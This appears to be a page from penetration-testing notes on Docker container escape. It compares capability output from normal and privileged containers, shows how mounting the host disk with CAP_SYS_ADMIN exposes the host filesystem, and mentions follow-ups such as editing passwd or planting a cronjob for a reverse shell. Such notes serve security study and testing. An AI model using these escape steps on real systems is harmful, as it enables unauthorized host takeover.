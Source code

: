 # Containerisation



## Docker

If you have code-execution in a host with docker installed, and have the appropriate permissions to use it, then you can escalate your permissions fairly trivially.  The process via the docker group is explained in the [Linux Privilege Escalation](https://booj.gitbook.io/virgil/linux/privilege-escalation#docker) section.

### docker.sock

### --privileged

The following shows the output of a regular container's `/sbin/capsh` output:

```text
root@987553478e0f:/# /sbin/capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

The next is from a container spawned with the `--privileged` flag:

```text
root@ad87033b28fe:/# /sbin/capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

If you see `CAP_SYS_ADMIN`, then congratulations, you've won.  The easiest way to exploit this is to simply mount the whole disk and browse in that manner:

```text
root@7f6762c86d98:/# mount /dev/sda1 /mnt
root@7f6762c86d98:/# cd /mnt
root@7f6762c86d98:/mnt# ls
cache	    empty	     lib    lost+found	swap
cni	    etc		     local  nfs		tmp
containerd  kubeadm	     lock   run		transfused_start.log
docker	    kubelet-plugins  log    spool
```

If we do this on an unprivileged container, we see the following:

```text
root@987553478e0f:/# mount /dev/sda1 /mnt
mount: /mnt: permission denied.
```

Common exploitation methods from this point on include editing the passwd file, or injecting a malicious cronjob to start services or return a reverse shell.



{% embed data="{\"url\":\"https://ericchiang.github.io/post/containers-from-scratch/\",\"type\":\"link\",\"title\":\"Containers from Scratch \| posts\"}" %}

[https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/](https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/)

